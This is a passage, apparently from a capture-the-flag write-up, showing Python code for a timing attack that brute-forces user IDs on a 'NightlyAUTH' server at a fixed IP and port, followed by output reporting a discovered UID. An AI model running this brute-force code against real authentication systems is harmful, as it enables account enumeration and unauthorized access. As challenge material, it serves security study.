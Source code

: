 ```python
      if (response == "You were kicked by the NightlyAUTH Server. Reason: Authentification failed.\n"):
        print("[~] Auth failed...")
      else:
        print("[+] Server answered: %s" % response)

  def chunks(self, l, n):
    return [l[i:i+n] for i in range(0, len(l), n)]

  def send_payload(self,sock,uid):
    counter = 0
    #      OPCODE       UID         PASS
    sock.sendall("1\x02\x01\x02\x01%s\x02\x01\x02\x01%s\x02\x01\x02\x01" % (uid,"ninja"))
    for data in self.chunks(self.payload,980):
      counter += 1
      sock.sendall(data)
    # END OF STREAM
    sock.sendall("\x45\x4f\x53")

if __name__ == "__main__":
  boom = TimingAttack(("54.217.202.218",1337))
  print("[~] Discovering average response time...")
  boom.avg_timer()
  print("[~] Bruteforcing...")
  boom.bruteforce()
```

After **8 minutes** on a cheap VPS server, we get the following result:

```
[~] Uid: 3240 took: 0.068480 (32% completed)
[~] Uid: 3241 took: 0.069281 (32% completed)
[~] Uid: 3242 took: 0.069874 (32% completed)
[~] Uid: 3243 took: 0.224517 (32% completed)
[+] Possible valid UID: 3243 found in 484 seconds.
[~] Test n°0: 0.215680
[+] BANGARANG!
[~] Test n°1: 0.217219
[+] BANGARANG!
[~] Test n°2: 0.208675
[+] BANGARANG!
[~] Test n°3: 0.199905
[+] BANGARANG!
[~] Test n°4: 0.229774
[+] BANGARANG!
[~] Test n°5: 0.208620
[+] BANGARANG!
[~] Test n°6: 0.193230
[+] BANGARANG!
[~] Test n°7: 0.204750
[+] BANGARANG!
[~] Test n°8: 0.215756
[+] BANGARANG!
[~] Test n°9: 0.211181
[+] BANGARANG!
[~] Test n°10: 0.196094
[+] BANGARANG!
[~] Test n°11: 0.213732
[+] BANGARANG!
[~] Test n°12: 0.197914
[+] BANGARANG!
[~] Test n°13: 0.195056
[+] BANGARANG!
[~] Test n°14: 0.210873
```